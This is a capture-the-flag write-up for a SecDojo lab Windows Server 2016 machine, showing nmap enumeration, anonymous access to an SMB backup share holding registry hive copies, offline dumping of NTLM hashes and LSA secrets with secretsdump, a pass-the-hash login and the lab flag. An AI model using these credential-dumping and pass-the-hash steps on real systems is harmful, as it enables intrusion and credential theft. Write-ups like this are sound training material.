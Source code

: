 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Sesco]
subtitle: "Shared machine write up"
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** Westeros Lab - Shared Machine
- **Profile:** SecDojo
- **Difficulty:** Easy
- **Description:** Westeros is a network of vulnerable Windows servers. Each box suffers from a severe vulnerability that if properly exploited, will grant you administrator access and get you the root flag located at the Administrator desktop folder.

# Enumeration

## Nmap

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.


```console
$ nmap -sV -sC -Pn 172.16.4.29
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:18 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHARED
|   NetBIOS_Domain_Name: SHARED
|   NetBIOS_Computer_Name: SHARED
|   DNS_Domain_Name: SHARED
|   DNS_Computer_Name: SHARED
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T15:18:31+00:00
| ssl-cert: Subject: commonName=SHARED
| Not valid before: 2022-12-27T14:20:19
|_Not valid after:  2023-06-28T14:20:19
|_ssl-date: 2022-12-28T15:19:11+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-28T15:18:36
|_  start_date: 2022-12-28T14:20:19
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: SHARED
|   NetBIOS computer name: SHARED\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T15:18:34+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.71 seconds
zsh: segmentation fault  nmap -sV -sC -Pn 172.16.4.29
```

From the above output we can see that ports, **135**, **445** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

To get more informations about the machine I used a script in nmap that discovers available smb shares.


```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.29
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:23 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00030s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.29\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\Backup: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|     Current user access: READ
|   \\172.16.4.29\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 23.50 seconds
```

There is four shares available, two of them can be accessed anonymously let's try.


![](./Figure%201.png)
**Figure 1:** Inside of backup share

![](./Figure%202.png)
**Figure 2:** Determining file type

Those are Windows registry keys which generally are windows configurations, I've noticed the existence of **sam.save** sam is Security Account Manager which normally stores local secrets and other two files can help us get LSA secrets all we have to do is parse them together.


![](Figure%203.png)
**Figure 3:** Downloading those files into our PWN machine

```console
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e499e821990727fe730fe85694bc500c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x45522ee9daebd9ea79ae4dbc335effe7f5839c63
dpapi_userkey:0x66c8f460e91dd6291fd4c09b474fe1909b711fa0
[*] NL$KM 
 0000   2E 74 ED 55 62 CB 0C 23  83 3D C6 56 51 CE B2 93   .t.Ub..#.=.VQ...
 0010   63 BC 5F C9 59 8B 25 DB  1F FC F9 A2 26 50 31 60   c._.Y.%.....&P1`
 0020   C4 67 C4 47 3B EA D7 01  86 9B 67 31 70 F9 30 A1   .g.G;.....g1p.0.
 0030   49 99 F2 29 6D 19 85 D4  F2 01 BE C0 65 26 19 20   I..)m.......e&. 
NL$KM:2e74ed5562cb0c23833dc65651ceb29363bc5fc9598b25db1ffcf9a226503160c467c4473bead701869b673170f930a14999f2296d1985d4f201bec065261920
[*] Cleaning up... 
```

Done parsing the keys that's our password hashes extracted, and now let's use Pass-The-Hash attack to get into our machine.

![](./Figure%204.png)
**Figure 4:** *Inside shared machine*

## Root Flag

![](./Figure%205.png)
**Figure 5:** *Administrator Desktop*

**Flag:** **`Shared_Sesco-xba5htto144lypq0dmaj1itmeoj6wb4e`**
